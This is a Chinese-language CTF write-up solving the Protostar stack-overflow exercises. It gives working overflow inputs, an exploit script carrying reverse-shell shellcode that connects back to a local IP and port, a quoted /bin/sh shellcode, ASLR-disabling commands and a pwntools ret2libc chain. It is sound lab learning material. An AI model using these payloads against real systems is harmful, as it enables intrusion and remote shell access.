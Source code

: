 ```yaml
---
layout: post
title: Protostar WriteUp
catagories: [ctf-execrise]
tags: [ctf, writeup, protostar]
---
```


> 堆、栈、格式化字符串漏洞利用学习


##Stack0

`gets()`函数不检查输入长度是否已溢出，所以输入超过buffer的长度，自然会覆盖到栈上的其它变量，
而`Modified`变量是紧跟着`buffer[]`的，因此被改写。

```
$ ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have changed the 'modified' variable
$ 
```

##Stack1

这一题要求modified的变量值为`0x61626364`. 因为数据是小端表示的，因此传给modifed的字符串应该是`"dcba"`.

```
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
$ 
```

##Stack2

因为`os.environ`改过的环境变量只在这个进程内部有效，进程外部无效，但其子进程是继承的父进程的环境变量，所以可以用`subprocess.Popen`来运行stack2

```python
import os
import subprocess
os.environ["GREENIE"]="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + "\x0a\x0d\x0a\x0d"
#print os.environ["GREENIE"]

cmd = "/opt/protostar/bin/stack2"
subprocess.Popen(cmd, close_fds=True, stderr=subprocess.PIPE, shell=True)
```

```
$ python ss.py
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA


$ you have correctly modified the variable
```

##Stack3

`objdump -d stack3`，拿到win()的地址`0x08048424`

构造输入：

```
$ python -c "print 'A'*64 + '\x24\x84\x04\x08'"|./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
$ 
```

##Stack4

拿到win()的地址`080483f4`

因为有对齐，原来的栈顶`0xbffffc48`变成了`0xbffffc40`

eip在ebp的下方

因此，应填充的padd为64+8+4,下接win的地址

```python
python -c "print 'A'*64 + 'B'*8 +'C'*4 + '\xf4\x83\x04\x08'"
```

```
$  python -c "print 'A'*64 + 'B'*8 +'C'*4 + '\xf4\x83\x04\x08'"|./stack4
code flow successfully changed
Segmentation fault
```

##Stack5

几个技巧：

1. nasm与ndisasm很强大，一个汇编编译，一个反汇编
2. 调试时关闭地址随机化`echo 0 >/proc/sys/kernel/randomize_va_space`
3. pwntools和msfconsole很强大，生成shellcode的话，msfconsole很全
4. core dump很有必要，因为gdb下和真实运行还是有很大差别的.`ulimit -c unlimited`和`echo "/tmp/core-%e-%p-%t" > /proc/sys/kernel/core_pattern`

标准的栈溢出，试过n种shellcode,明显msfconsole生成的更灵活，exploit-db太多，不知如何选择
`http://shell-storm.org/shellcode/, http://www.exploit-db.com/`

```python
#!/usr/bin/env python

#shell = '31c9f7e96a01fe0c24682f2f7368682f62696eb00b89e3cd80'.decode("hex")

#shell = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73" +\
        #"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08\x00\x00" +\
        #"\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x53\x89\xe1\xcd" +\
        #"\x80"

#buf =  ""
#buf += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66"
#buf += "\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0"
#buf += "\xa8\x01\x70\x68\x02\x00\x04\xd2\x89\xe1\xb0\x66\x50"
#buf += "\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73"
#buf += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0"
#buf += "\x0b\xcd\x80"


buf =  ""
buf += "\x31\xc9\x31\xdb\xf7\xe3\xb0\xa4\xcd\x80\x31\xdb\x6a"
buf += "\x17\x58\xcd\x80\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02"
buf += "\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49"
buf += "\x79\xf9\x68\xc0\xa8\x01\x70\x68\x02\x00\x04\xd2\x89"
buf += "\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52"
buf += "\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52"
buf += "\x53\x89\xe1\xb0\x0b\xcd\x80"


#buf =  ""
#buf += "\x31\xc0\x31\xdb\xb0\x06\xcd\x80"
#buf += "\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80"
#buf += "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

#shellcode = "\x90"*(76-len(buf))+buf+ "\x40\xfc\xff\xbf" //放在ebp前, 效果不好
shellcode = "A"*76 +"\x74\xfe\xff\xbf" + "\x90"*16 +  buf //放在ebp后

fd = open("shellcode", "w")
fd.write(shellcode)
```
gets()这种溢出，还有个情况，/bin/sh时，标准输入会出现一些问题，导致刚运行即退出的现象，
所以stdin需要重新打开，这有个牛B的shellcode,备忘：
[http://www.exploit-db.com/exploits/13357/](http://www.exploit-db.com/exploits/13357/)

> 原来这种情况是这样的：`<`这个符号导致的原因
> 有人提出这种方法` (cat payload5; cat) | /opt/protostar/bin/stack5`

```c
/*
 * $Id: gets-linux.c,v 1.3 2004/06/02 12:22:30 raptor Exp $
 *
 * gets-linux.c - stdin re-open shellcode for Linux/x86
 * Copyright (c) 2003 Marco Ivaldi <raptor@0xdeadbeef.info>
 *
 * Local shellcode for stdin re-open and /bin/sh exec. It closes stdin 
 * descriptor and re-opens /dev/tty, then does an execve() of /bin/sh.
 * Useful to exploit some gets() buffer overflows in an elegant way...
 */
 
/*
 * close(0) 
 *
 * 8049380:       31 c0                   xor    %eax,%eax
 * 8049382:       31 db                   xor    %ebx,%ebx
 * 8049384:       b0 06                   mov    $0x6,%al
 * 8049386:       cd 80                   int    $0x80
 *
 * open("/dev/tty", O_RDWR | ...)
 *
 * 8049388:       53                      push   %ebx
 * 8049389:       68 2f 74 74 79          push   $0x7974742f
 * 804938e:       68 2f 64 65 76          push   $0x7665642f
 * 8049393:       89 e3                   mov    %esp,%ebx
 * 8049395:       31 c9                   xor    %ecx,%ecx
 * 8049397:       66 b9 12 27             mov    $0x2712,%cx
 * 804939b:       b0 05                   mov    $0x5,%al
 * 804939d:       cd 80                   int    $0x80
 *
 * execve("/bin/sh", ["/bin/sh"], NULL)
 *
 * 804939f:       31 c0                   xor    %eax,%eax
 * 80493a1:       50                      push   %eax
 * 80493a2:       68 2f 2f 73 68          push   $0x68732f2f
 * 80493a7:       68 2f 62 69 6e          push   $0x6e69622f
 * 80493ac:       89 e3                   mov    %esp,%ebx
 * 80493ae:       50                      push   %eax
 * 80493af:       53                      push   %ebx
 * 80493b0:       89 e1                   mov    %esp,%ecx
 * 80493b2:       99                      cltd   
 * 80493b3:       b0 0b                   mov    $0xb,%al
 * 80493b5:       cd 80                   int    $0x80
 */
 
char sc[] = 
"\x31\xc0\x31\xdb\xb0\x06\xcd\x80"
"\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80"
"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";
 
main()
{
    int (*f)() = (int (*)())sc; f();
}
 
// milw0rm.com [2006-07-20]
```

要拿root权限，还需要跑/opt/protostar/bin/stack5这个路径下的文件，不过因为文件夹对user用户有写限制，
所以core dump不好生成，可在root权限下生成core dump进行分析

##Stack6

现学了pwntools的使用，用它的ROP包搞定吧，虽然这里只有ret2libc。

```python
from pwn import *

system = 0x4005cfb0     #GDB里print system查到的,也可以objdump -T *来计算到
cmd = 0x80482a8 + 12    #LIBC_2.0,objdump-s *找到的，可随便找一字符串,需要本地写一个文件

s6 = ELF("stack6")
r6 = ROP(s6)
r6.call(system, [cmd])

shellcode = ""
shellcode += "A"*0x4c +"B"*4
shellcode += r6.chain()

fd = open("shellcode6", "w")
fd.write(shellcode)
fd.close()
```

```
user@protostar:/tmp$ cat shellcode6 -|./stack6
input path please: 
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@AAAAAAAABBBB�@ﾭ޴�
whoami
user
pwd
/tmp
```

Done！

##Stack7 

同第六题，只是cmd的位置需要重找一下`cmd = 0x80482cc + 3`
